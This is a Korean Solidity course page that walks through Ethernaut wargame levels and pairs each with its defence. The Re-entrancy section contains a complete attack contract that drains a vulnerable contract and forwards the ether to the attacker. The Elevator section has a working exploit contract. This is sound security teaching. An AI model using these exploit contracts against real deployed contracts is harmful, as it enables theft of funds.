






id: html
summary: 프로젝트 요구사항에 알맞게 Smart Contract를 개발한다.
categories: Solidity
status: Published
feedback email: sinphi03@gmail.com
tags: Solidity, Blockchain, Smart Contracts
authors: Jiseop Shin
duration: 110

# Week 4: 취약점 보완 및 테스트

## 세션 소개

Duration: 5

이번 세션에서는 Ethernaut 문제 풀이를 공유하며 스마트 컨트랙트 상의 주요 취약점을 함께 학습합니다. 이를 바탕으로 지난 세션까지 진행한 프로젝트의 보안 취약점을 점검하고 필요한 수정 작업을 진행합니다. 마지막으로, 수정된 기능들이 정상적으로 동작하는지 최종 테스트를 수행할 예정입니다.

### 목차

#### 1. Ethernaut 문제 풀이 공유

Ethernaut 레벨을 바탕으로 취약점 재현 과정, 악용 시나리오, 안전한 방어 전략을 정리하고 학습합니다.

#### 2. 프로젝트 취약점 점검

`CommitteeManager`, `LicenseManager` 등 핵심 컨트랙트와 관련 오프체인 서비스의 접근 제어, 재진입, 입력 검증 항목을 중심으로 취약점을 점검합니다.

#### 3. 취약점 수정 및 개선 작업

우선순위가 높은 취약점부터 컨트랙트 로직, 이벤트를 수정하고 코드 리뷰를 통해 개선 사항을 확정합니다.

#### 4. 최종 테스트

수정된 내용을 배포하고, 발행부터 복원까지 사용자 시나리오를 통합 테스트로 검증합니다.

## Ethernaut 문제 풀이 공유

Duration: 60

사전에 풀어온 Ethernaut 레벨을 바탕으로 풀이 과정을 발표하고, 각 취약점이 발생한 원인과 방어 전략을 함께 토론합니다. 동일한 유형이라도 구현 방식에 따라 대응책이 달라질 수 있으므로, 서로의 솔루션을 비교하면서 정리합시다.


### Fallback

- **Fallback**: `receive()`/`fallback()`에서 `owner`를 덮어쓰는 실수를 악용해 컨트랙트를 장악할 수 있습니다. 비인가 호출이 넘어오지 못하도록 `onlyOwner` 가드와 초기 소유자 설정 로직을 분리합니다.

### Fallout

- **Fallout**: 생성자 철자 오류로 인해 초기화를 누구나 호출할 수 있게 된 사례입니다. 배포 시점에만 실행되는 초기화 함수를 명확히 검증하고, 업그레이드형 컨트랙트라면 `initializer` 모디파이어를 적극 사용합니다.

### CoinFlip

- **CoinFlip**: 공개된 블록 데이터를 그대로 난수로 사용하는 바람에 결과를 예측할 수 있습니다. 난수는 오라클/VRF와 같이 오프체인에 의존하거나 커밋-리빌 패턴으로 생성해야 합니다.

### Telephone

- **Telephone**: `tx.origin`을 검증에 사용해 중간 컨트랙트를 통한 호출을 허용해 버린 사례입니다. 인증에는 반드시 `msg.sender`와 역할 기반 제어를 사용합니다.

### Token

- **Token**

[Token](https://ethernaut.openzeppelin.com/level/5)은 20개의 토큰을 받은 상태에서 가능한 한 많은 토큰을 탈취하는 문제입니다.

```solidity
function transfer(address _to, uint256 _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

transfer 함수를 봅시다. `balances[msg.sender] - _value`에서 underflow가 발생하면 require를 통과하게 되고 동일하게 ` balances[msg.sender] -= _value;`가 발생하여 비정상적인 값이 발생할 수 있습니다. 이때, 다시 더하는 `_to`만 다른 주소로 설정하면 msg.sender의 금액은 정상적인 값으로 복구되지 않습니다.



Solidity 0.8 이전 버전에서 underflow는 기본적으로 허용되어 있습니다. 최신 컴파일러의 내장 SafeMath, 혹은 OpenZeppelin의 `SafeMath` 라이브러리와 `require` 검증을 병행해야 합니다.


최신 버전에서 underflow를 허용하려면 unchecked를 사용하면 됩니다.

```solidity
function unsafeDecrement(uint8 amount) public {
    // myNumber가 10이므로 11을 빼려고 하면 언더플로우 발생
    unchecked {
        // 이 블록 안에서는 안전 장치가 해제됩니다.
        // myNumber는 (10 - 11)이 되어 255로 순환합니다.
        myNumber = myNumber - amount;
    }
}
```

### Re-entrancy

[Re-entrancy](https://ethernaut.openzeppelin.com/level/10)은 컨트랙트의 모든 계정을 탈취하는 문제입니다.

withdraw함수를 보면 인출할 금액이 있는지 검사하고 `msg.sender.call`을 이용해 sender의 콜백함수를 실행합니다. 그 다음에 잔고를 줄이는 것을 확인할 수 있습니다. 이때, 공격자가 콜백 함수에 receive()를 만들고 그 안에서 다시 withdraw를 호출할 수 있습니다. 실제 상태 반영은 이루어지기 전에 콜백함수가 실행되어 잔고가 줄지 않아 여러 번 인출이 가능합니다. 다음과 같이 공격 컨트랙트를 작성하면 됩니다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
    function balanceOf(address _who) external view returns (uint);
}

contract Attack {
    IReentrance public target;
    address public owner;
    uint public attackAmount;

    constructor(address _target) public {
        target = IReentrance(_target);
        owner = msg.sender;
    }

    // 공격 시작용 함수
    function attack() external payable {
        require(msg.value > 0, "need ether to attack");
        attackAmount = msg.value;

        // 컨트랙트에게 기부해서 target에 잔고를 만들어둠
        target.donate{value: msg.value}(address(this));

        // 첫 withdraw 호출
        target.withdraw(attackAmount);
    }

    // target이 돈 보내줄 때마다 실행됨
    receive() external payable {
        uint targetBalance = address(target).balance;

        if (targetBalance >= attackAmount) {
            // 아직 돈이 남아 있으면 다시 똑같은 amount 만큼 withdraw 계속
            target.withdraw(attackAmount);
        } else if (targetBalance > 0) {
            // 남은 게 attackAmount보다 적으면 남은 거 싹 다 뽑기
            target.withdraw(targetBalance);
        } else {
            // 다 털었으면 내 EOA로 빼가기
            payable(owner).transfer(address(this).balance);
        }
    }
}
```

공격할 인스턴스 주소 확인를 확인하고 Attack 컨트랙트를 생성할 때 주소를 넣어줍니다.




공격함수를 호출할 때 value를 적당히 넣어주어 초기에 맡길 금액을 설정하고 함수를 실행합니다.


제대로 재진입 공격이 먹혔는지 Attack 컨트랙트가 가진 금액을 확인합니다.


탈취한 것이 확인되었으면 제출합니다. 재진입 공격을 방지하기 위해 Checks-Effects-Interactions 패턴을 사용해야 합니다. 먼저 조건을 검증하고 바로 상태를 업데이트를 해야합니다. 그 이후 외부 함수를 호출할 수 있도록 구성해야합니다. 혹은 Mutex 패턴을 사용해야 합니다. Mutex는 여러 개체가 동일한 자원에 동시에 접근하는 것을 제한하기 위한 매커니즘으로, 특정 자원에 대한 락(lock)을 걸어 재진입 공격을 방지합니다.

```solidity
bool private locked;

modifier noReentrant() {
    require(!locked, "No re-entrancy");
    locked = true;
    _;
    locked = false;
}
```



### Preservation

- **Preservation**: `delegatecall`을 통해 호출한 라이브러리의 스토리지 레이아웃 차이를 악용해 상태를 덮어썼습니다. 라이브러리 주소를 임의로 바꾸지 못하도록 고정하거나 업그레이드 시 접근 제어를 강화합니다.

### Elevator

[Elevator](https://ethernaut.openzeppelin.com/level/11)은 빌딩의 꼭대기에 도달하는 문제입니다. 컨트랙트에 보면 top이라는 boll 타입의 변수가 있는데 이 값을 true로 바꾸면 됩니다.

컨트랙트에서 goTo 함수를 호출하면 그 컨트랙트의 주소(`msg.sender`)를 Building 타입으로 보고 `isLastFloor()`를 호출한다. 우리는 Building interface와 동일한 컨트랙트를 통해 top을 true로 바꿀 것이다.

`isLastFloor`는 `goTo` 함수 내에서 두 번 호출된다. 처음은 조건 검사이고 두 번째는 top을 변경하기 위한 용도이다. 처음 `isLastFloor`가 호출되었을 때 false이고 그 다음 호출되기 전에 true라면 top은 true로 바뀔 수 있다. Build의 isLastFloor가 다음과 같이 동작하도록 구현하면 된다.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.30;

interface IElevator {
    function goTo(uint _floor) external;
}

interface IBuilding {
    function isLastFloor(uint) external returns (bool);
}

contract Building is IBuilding {
    IElevator public target;
    bool private toggle;

    constructor(address _elevator) {
        target = IElevator(_elevator);
        toggle = false;
    }

    // Elevator가 두 번 호출하는 함수
    function isLastFloor(uint) external override returns (bool) {
        if (!toggle) {
            toggle = true;
            return false;
        } else {
            return true;
        }
    }

    function attack(uint _floor) external {
        target.goTo(_floor);
    }
}
```

먼저 Elvator 컨트랙트를 주소를 받아와 Building을 배포할 때 인자로 넘겨준다.





이후, Attack 함수를 호출해 공격한다. 이때 인자는 이동할 층으로, 아무 값이나 상관없다.


정상적으로 top이 true로 변경했는지 확인한다. true이면 제출하면 된다.


이 문제는 `isLastFloor`라는 함수가 순수(pure)하게 동작하지 않았기 때문에 발생한 문제입니다. `isLastFloor`는 입력에 따라 마지막 층인지만 확인하고 그 결과를 반환해야 하는데 실제론 toggle이라는 상태를 가지고 상태에 따라 반환값이 달라지게 구현하였습니다. 즉, 실제로 pure하게 동작해야 하는데 외부 컨트랙트를 통해 그렇지 않게 동작하였습니다.

이를 막기 위해 함수의 정의(interface)에서 어떤 역할을 하는지 명시적으로 알려줄 필요가 있고 상태를 변경하지 않는 함수라면 view나 pure를 사용해야 합니다.



## 프로젝트 취약점 점검

Duration: 10

## 취약점 수정 및 개선 작업

Duration: 20

## 최종 테스트

Duration: 19

## 축하합니다

Duration: 1

축하합니다! Ethernaut에서 다룬 대표적인 온체인 취약점을 복습하고, 프로젝트 컨트랙트의 보안 취약점을 실제로 찾아내어 패치하는 방법을 익혔습니다. 또한 보안 패치가 정상 동작하는지 테스트·배포 파이프라인으로 검증하는 경험을 쌓았습니다. 4주 동안 수고하셨습니다!

### 요약

- 이더리움 아키텍처(EVM, 계정, 가스)를 이해하였습니다.
- 기본 Solidity 문법, Remix/Hardhat 환경 세팅, 간단한 컨트랙트 배포·테스트 흐름을 익혔습니다.
- 프로젝트 요구사항을 바탕으로 폴더 구조와 인터페이스를 정의할 수 있습니다.
- 코드 등록·라이선스 발급·실행 요청 로직을 갖춘 핵심 스마트 컨트랙트를 작성해 Sepolia에 배포할 수 있습니다.
- IPFS와 Shamir’s Secret Sharing 동작을 이해하였습니다.
- Ethernaut를 통해 자주 발생하는 온체인 취약점 패턴을 학습했습니다.

### 도움이 될 만한 자료

1. [Lit Protocol](https://www.litprotocol.com/): Lit Protocol은 key와 secrets을 관리하기 위한 탈중앙화 네트워크 프로토콜입니다. 본 프로젝트는 이러한 Lit Protocol에서 영감을 받아, DKG(Distributed Key Generation) 개념을 기반으로 이를 솔리디티로 구현하였습니다. Lit Protocol에 대한 보다 자세한 내용은 [공식 백서](https://github.com/LIT-Protocol/whitepaper)를 참고하시기 바랍니다.
2. [IPFS Concepts](https://docs.ipfs.tech/concepts/): [IPFS](https://github.com/ipfs)는 Web3 생태계에서는 중대형 오픈소스 프로젝트입니다. 또한, 이에 대한 구현 원리를 이해하기 위해서 Merkle DAG, UnixFS, DHT, Pub/Sub 모델(Gossip), BitSwap 등 Computer Sicence 관련 배경지식을 많이 요구합니다.
3. [proto school](https://proto.school/tutorials): IPFS나 filecoin과 같은 분산형 웹 스토리지 시스템에 관한 기술 튜토리얼입니다.
4. [Sharmir’s Secret Sharing](https://medium.com/@sineta01/sharmirs-secret-sharing%EC%9D%84-%EC%82%B4%ED%8E%B4%EB%B3%B4%EC%9E%90-eca906e17a4c): 샤미르 분산 공유(Sharmir’s Secret Sharing)에 관한 설명입니다.

### 참고 자료

1. [openzeppelin의 contract관련 개발 문서](https://docs.openzeppelin.com/contracts)
2. [ethernaut](https://ethernaut.openzeppelin.com)
